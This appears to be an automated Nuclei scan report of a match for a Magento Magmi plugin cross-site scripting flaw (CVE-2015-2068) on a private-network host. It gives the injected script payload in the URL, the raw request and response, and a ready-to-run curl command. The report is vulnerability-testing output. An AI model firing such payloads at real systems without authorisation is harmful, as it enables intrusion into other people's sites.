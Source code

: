 ### Magento Server Magmi Plugin - Cross Site Scripting (CVE-2015-2068) found on http://192.168.198.179:8080/
---
**Details**: **CVE-2015-2068**  matched at http://192.168.198.179:8080/

**Protocol**: HTTP

**Full URL**: http://192.168.198.179:8080/magmi/web/magmi.php?configstep=2&profile=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E

**Timestamp**: Wed Jun 8 20:22:21 +0100 BST 2022

**Template Information**

| Key | Value |
|---|---|
| Name | Magento Server Magmi Plugin - Cross Site Scripting |
| Authors | daffainfo |
| Tags | cve, cve2015, magento, magmi, xss, plugin |
| Severity | medium |
| Description | Multiple cross-site scripting (XSS) vulnerabilities in the MAGMI (aka Magento Mass Importer) plugin for Magento Server allow remote attackers to inject arbitrary web script or HTML via the (1) profile parameter to web/magmi.php or (2) QUERY_STRING to web/magmi_import_run.php. |
| CVE-ID | [CVE-2015-2068](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2015-2068) |
| CVSS-Score | 0.00 |

**Request**
```http
GET /magmi/web/magmi.php?configstep=2&profile=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E HTTP/1.1
Host: 192.168.198.179:8080
User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/34.0.1866.237 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip


```

**Response**
```http
HTTP/1.0 200 OK
Connection: close
Content-Length: 231
Content-Type: text/html

<HTML><HEAD><TITLE>File Not Found</TITLE></HEAD><BODY><H1>Cannot find this file.</H1>The requested file: <B>/magmi/web/magmi.php?configstep=2&profile=</script><script>alert(document.domain)</script></B> was not found.</BODY></HTML>
```

References: 
- https://www.exploit-db.com/exploits/35996
- https://nvd.nist.gov/vuln/detail/cve-2015-2068
- http://packetstormsecurity.com/files/130250/magento-server-magmi-cross-site-scripting-local-file-inclusion.html

**CURL Command**
```
curl -X 'GET' -d '' -H 'Accept: */*' -H 'Accept-Language: en' -H 'User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/34.0.1866.237 Safari/537.36' 'http://192.168.198.179:8080/magmi/web/magmi.php?configstep=2&profile=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E'
```
---
Generated by [Nuclei 2.7.1](https://github.com/projectdiscovery/nuclei)